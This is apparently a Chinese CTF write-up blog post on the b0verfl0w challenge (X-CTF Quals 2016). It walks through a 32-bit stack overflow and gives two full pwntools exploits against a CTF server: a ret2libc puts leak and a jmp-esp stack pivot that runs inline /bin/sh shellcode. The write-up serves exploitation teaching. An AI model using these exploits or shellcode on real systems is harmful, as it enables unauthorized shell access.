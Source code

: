 ```yaml
---
layout: post
title:  b0verfl0w(X-CTF Quals 2016)
date:   2022-09-22 00:08:01 +0300
image:  2022-09-22-cat.jpg
tags:   [ctf,pwn,ubuntu16,StackPivoting]
---
```


main

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  return vul();
}
```

vul

```assembly
int vul()
{
  char s[32]; // [esp+18h] [ebp-20h] BYREF

  puts("\n======================");
  puts("\nWelcome to X-CTF 2016!");
  puts("\n======================");
  puts("What's your name?");
  fflush(stdout);
  fgets(s, 0x32, stdin);
  printf("Hello %s.", s);
  fflush(stdout);
  return 1;
}
```

这里有一个栈溢出，按照之前的方法，先泄露地址，再执行system

```assembly
from pwn import *
from LibcSearcher import *

io = remote("node4.buuoj.cn", 26668)

io.recvuntil("What's your name?\n")

puts_plt = 0x80483D0
puts_got = 0x804A018
main = 0x804850E

payload = "a"*32 + p32(0) + p32(puts_plt) + p32(main) + p32(puts_got)
io.sendline(payload)

io.recvuntil(".")

addr = u32(io.recv(4))
print(hex(addr))

libc = LibcSearcher("puts", addr)
base = addr - libc.dump("puts")
system = base + libc.dump("system")
bin_sh = base + libc.dump("str_bin_sh")


io.recvuntil("What's your name?\n")
payload = "a"*32 + p32(0) + p32(system) + p32(main) + p32(bin_sh)
io.sendline(payload)


# gdb.attach(io)
# raw_input()

io.interactive()
```

![]({{site.baseurl}}/img/2022-09-22-puts.jpg)

但是这里还有另一种方法，栈劫持

由于程序本身并没有开启堆栈保护，所以我们可以在栈上布置 shellcode 并执行。

- 利用栈溢出布置 shellcode
- 控制 eip 指向 shellcode 处

由于程序本身会开启 ASLR 保护，所以我们很难直接知道 shellcode 的地址。但是栈上相对偏移是固定的，所以我们可以利用栈溢出对 esp 进行操作，使其指向 shellcode 处，并且直接控制程序跳转至 esp 处。

```assembly
ROPgadget --binary b0verfl0w --only 'jmp|ret'
Gadgets information
============================================================
0x080483ab : jmp 0x8048390
0x080484f2 : jmp 0x8048470
0x08048611 : jmp 0x8048620
0x0804855d : jmp dword ptr [ecx + 0x804a040]
0x08048550 : jmp dword ptr [ecx + 0x804a060]
0x0804876f : jmp dword ptr [ecx]
0x08048504 : jmp esp
0x0804836a : ret
0x0804847e : ret 0xeac1

Unique gadgets found: 9
```

发现有一个可以直接跳转到 esp 的 gadgets

```assembly
.text:08048504                 jmp     esp
```

- size(shellcode+padding)=0x20
- size(fake ebp)=0x4
- size(0x08048504)=0x4

所以我们最后一段需要执行的指令就是

```assembly
sub esp,0x28
jmp esp
```

exp

```assembly
from pwn import *
from LibcSearcher import *

io = remote("node4.buuoj.cn", 26668)

shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode_x86 += "\x0b\xcd\x80"

jmp_esp = 0x08048504
sub_esp_jmp = asm('sub esp, 0x28;jmp esp')

payload = shellcode_x86 + (0x20 - len(shellcode_x86)) * 'b' + 'bbbb' + p32(jmp_esp) + sub_esp_jmp
io.sendline(payload)

io.interactive()
```

ret上写的是jump esp的地址，执行完ret之后会esp+4，指向了sub esp，0x28;jump esp，然后执行，esp又回到了shellcode的位置，然后jump esp；就执行了shellcode。